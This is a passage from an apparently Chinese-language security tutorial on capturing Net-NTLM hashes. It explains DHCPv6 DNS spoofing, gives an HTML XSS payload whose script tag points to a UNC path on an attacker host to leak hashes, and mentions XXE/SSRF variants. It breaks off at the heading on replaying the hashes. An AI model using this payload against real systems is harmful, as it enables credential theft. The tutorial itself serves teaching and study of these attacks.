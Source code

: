 DHCPv6四步交互过程如下：



1.  客户端向\[ff02::1:2\]组播地址发送一个Solicit请求报文

2.  DHCP服务器或中继代理回应Advertise消息告知客户端



1.  客户端选择优先级最高的服务器并发送Request信息请求分配地址或其他配置信息

2.  最后服务器回复包含确认地址，委托前缀和配置（如可用的DNS或NTP服务器）的Relay消息



通俗点来说就是，在可以使用IPV6的情况下(Windows Vista以后默认开启)，攻击者能接收到其他机器的DHCPv6组播包，攻击者通过攻击可以让受害者的IPv6 DNS设置为攻击者的IPv6地址。



### XSS



当我们能进行[xss](https://so.csdn.net/so/search?q=xss&spm=1001.2101.3001.7020)的时候，可以在网页中插入指定的UNC路径，来获取目标机器的Net-NTLM Hash。



```
<!doctype html>      
<html lang="en">      
<head>      
  <meta charset="UTF-8">      
</head>      
<body>      
</body>      
    <script src="\\192.168.106.5\test"></script>      
</html>
```




![](https://img-blog.csdnimg.cn/img_convert/c6c55c49272b792903a8bf6cf7a6750c.png)



### XXE&SSRF



如果目标网站存在XXE或者SSRF漏洞的话，可以尝试访问指定的UNC(\\\\ip\\x或file://ip/x)路径或者指定的HTTP(http://ip/x)路径，看能否接收到Net-NTLM Hash。各个语言触发XXE和SSRF的实现不同，同一门语言也有不同的触发方式，这里就不一一讲了，因为我对各种语言也不熟悉。



重放Net-NTLM Hash

---------------



在获取到了目标机器的Net-NTLM Hash后，我们要怎么利用呢？这里有两种利用方式：

